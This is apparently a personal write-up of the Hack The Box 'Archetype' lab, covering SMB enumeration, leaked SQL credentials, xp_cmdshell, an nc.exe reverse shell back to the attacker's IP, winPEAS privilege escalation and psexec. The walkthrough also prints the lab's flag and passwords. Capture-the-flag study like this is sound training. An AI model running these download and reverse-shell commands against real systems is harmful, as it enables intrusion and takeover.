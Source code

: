 # **- HTB - Archetype**    
### MSSQL, enum4linux, public SMB shares
<br>

```
ip=10.129.190.66
```
### **Processs:**
<br>
   
1. Standard nmap scan 


> `nmap $ip -sV -sC -oN nmap/initial -A `

Interesting results:
```
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
```
2. List SMB shares if any
>  `smbclient -N -L $ip`

Interesting results:
```
    Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
3. Spot the public 'backups' share, connect and get contents

> `smbclient -N \\\\$ip\\backups` \
> `ls` \
> `get prod.dtsConfig`


4. After cat'ing out the file we see a nice plain text domain/user and password
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```
5. Had to google what the hell 'IMPacket' was but the sytax is just;
> `python3 mysqlclient.py Archetype\sql_svc@$ip -windows-auth`

6. More google'ing for xp_cmdshell - found a walkthrough for how to enable
7. From here we have *a* shell but not a very good one - time to stablize!
    - Step 1: no netcat on the windows box so we need to download and move that over via a python http server, then standard reverse shell from there
> `python3 -m http.server`  - from within the directory containing the nc.exe file \
> `wget http://10.10.14.53:8000/nc.exe -OutFile C:\\Users\\Public\\nc.exe` - from the Windows reverse shell \
> `nc -lvnp 7890`  \
> `xp_cmdshell "C:\\Users\\Public\\nc.exe -e cmd.exe 10.10.14.53 7890"` - on your SQL terminal

1. From here we have a windows cmd terminal - `type C:\Users\sql_svc\Desktop\user.txt` and we have our user flag - nice.
```
3e7b102e78218e935bf3f4951fec21a3
```
9. Now, we are on the box as sql_svc but have no admin rights - time for prvesc. Apparently the tool for this job is "winPEAS" linpeas windows alternative.
> `python3 -m http.server` - from within the directory containing the winPEASx64.exe file \
> `powershell.exe` - from the Windows reverse shell \
> `wget http://10.10.14.53:8000/winPEASx64.exe -OutFile C:\\Users\\Public\\winPEASx64.exe` - from the Windows reverse shell \
> `C:\\Users\\Public\\winPEASx64.exe` - from the Windows reverse shell 
10. WinPEAS showed us an interesting file in `...PowerShell\PSReadLine\ConsoleHost_history.txt` \
which when cat'd out gives us the admin password
```
/user:administrator MEGACORP_4dm1n!!
```
11. home stretch - Back all the way out to our local linux terminal, run psexec.py (part of IMPacket) using the following syntax
> `psexec.py administrator@$ip`

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; This will drop you into an administrator cmd shell - *boom, challenge complete.*  
